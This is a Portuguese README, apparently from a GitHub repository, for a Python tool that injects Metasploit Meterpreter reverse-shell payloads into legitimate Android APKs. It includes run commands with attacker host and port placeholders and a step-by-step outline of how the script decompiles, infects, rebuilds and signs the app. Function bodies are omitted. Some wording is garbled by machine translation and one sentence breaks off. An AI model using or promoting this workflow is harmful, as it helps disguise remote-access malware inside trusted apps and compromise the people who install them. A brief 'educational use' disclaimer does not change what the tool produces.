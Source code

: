 # Payload APK 
O Payload APK é uma ferramenta simples para injetar payloads Metasploit em aplicativos Android legítimos. Este script automatiza o processo de criação de um APK infectado para fins de teste e pesquisa.

## Requisitos

Certifique-se de ter as seguintes dependências instaladas no seu sistema:

- [APKTool](https://ibotpeaches.github.io/Apktool/)
- [Jarsigner](https://docs.oracle.com/en/java/javase/11/tools/jarsigner.html) ou [APKSigner](https://github.com/iBotPeaches/Apktool)

## Uso

1. Clone o repositório:

    ```bash
    git clone https://github.com/sucloudflare/payload_apk.git
    ```

2. Navegue até o diretório do script:

    ```bash
    cd payload_apk
    ```

3. Execute o script com os argumentos necessários:

    ```bash
    python payload_apk.py --lhost SEU_ENDERECO_IP --lport SUA_PORTA --normal-apk CAMINHO_APK_LEGITIMO --apk-name NOME_APK
    ```

    Certifique-se de substituir `SEU_ENDERECO_IP`, `SUA_PORTA`, `CAMINHO_APK_LEGITIMO` e `NOME_APK` pelos valores desejados.

4. O arquivo APK infectado será gerado no diretório e estará disponível como `Final_Infected.apk`.

########### (;

Esse código é um script Python que automatiza o processo de criação de um APK infectado com um payload Meterpreter para fins educacionais e de pesquisa. Aqui está uma breve explicação de cada parte do código: 

    Importação de Bibliotecas: 

    Pitão 

import os
import subprocess
import argparse
import random
import banner
import shutil

O script faz uso de bibliotecas padrão do Python para realizar várias operações, como manipulação de sistema, subprocessos, análise de argumentos da linha de comando, geração de números aleatórios e manipulação de banners. 

Definição de Cores: 

Pitão 

BLUE, RED, WHITE, YELLOW, MAGENTA, GREEN, END = '\33[94m', '\033[91m', '\33[97m', '\33[93m', '\033[1;35m', '\033[1;32m', '\033[0m'

São constantes para melhorar a legibilidade da saída colorida do terminal. 

Obtenção de Argumentos da Linha de Comando:

Pitão 

def obter_argumentos():
    # ...

O script usa a biblioteca  argparse para analisar e obter os argumentos passados pela linha de comando.

Verificação de Dependências: 

Pitão 

def verificar_dependencias(dependencia, nome):
    # ...
def verificar_dependencias_e_atualizacoes():
    # ...

Essas funções verificam se as dependências necessárias, como  apktool,  jarsigner,  apksigner e  zipalign, estão instaladas no sistema. Se não estiverem, o script oferece a opção de instalá-las. 

Função Principal ( main): 

Pitão 

    def main():
        arguments = obter_argumentos()  
        # ...

    A função principal do script onde todo o processo é coordenado. Ele obtém os argumentos da linha de comando, gera variáveis aleatórias, verifica dependências, gera um payload Meterpreter, realiza a descompilação do APK original, faz modificações, compila o APK infectado, assina e ajusta o alinhamento do APK.

O código é bastante extenso, e detalhes específicos de cada função foram omitidos aqui. Se você tiver dúvidas sobre partes específicas ou quiser uma explicação mais detalhada de alguma seção, por favor, sinta-se à vontade para pergunta 


## Contribuindo

Se você encontrar problemas ou tiver sugestões para melhorias, sinta-se à vontade para abrir uma [issue](https://github.com/sucloudflare/payload-apk-generator/issues) ou enviar um [pull request](https://github.com/sucloudflare/payload-apk-generator/pulls).

## Aviso Legal

Este script é destinado apenas para fins educacionais e de pesquisa. O uso indevido deste script em ambientes não autorizados é estritamente proibido.

